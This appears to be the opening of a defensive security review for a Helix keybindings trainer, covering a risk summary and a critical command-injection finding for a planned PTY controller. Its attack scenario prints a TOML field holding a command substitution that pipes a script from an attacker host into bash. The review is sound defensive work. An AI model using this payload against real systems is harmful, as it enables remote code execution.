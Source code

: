 # Security Architecture Review Report
## Helix Keybindings Trainer

**Review Date**: 2025-10-26
**Project Phase**: Foundation (Task 1.1 Complete)
**Reviewer**: Security Engineer
**Scope**: Architecture, Dependencies, Planned Implementation

---

## Executive Summary

This security review evaluates the Helix Keybindings Trainer project from a defensive security perspective. The project is in early initialization phase with minimal code implementation. This review identifies potential security vulnerabilities in the planned architecture and provides actionable recommendations to build security controls from the ground up.

**Overall Security Posture**: LOW RISK (current implementation)
**Projected Risk**: MEDIUM-HIGH (planned PTY integration and subprocess management)

**Critical Findings**: 2
**High Findings**: 4
**Medium Findings**: 6
**Low Findings**: 5

---

## 1. Security Findings

### CRITICAL SEVERITY

#### C-01: Command Injection Risk in PTY Controller
**Category**: Code Execution
**Status**: Not Yet Implemented
**CVSS Score**: 9.8 (Critical)

**Description**:
The planned PTY controller (`src/helix/pty_controller.rs`) will spawn Helix subprocess with user-controlled parameters. Without proper input sanitization, attackers could inject malicious commands through:
- Scenario file paths
- Initial file content
- Command sequences

**Attack Scenario**:
```toml
# Malicious scenario file
[scenarios.setup]
file_content = """$(curl http://attacker.com/malware.sh | bash)"""
cursor_position = [0, 0]
```
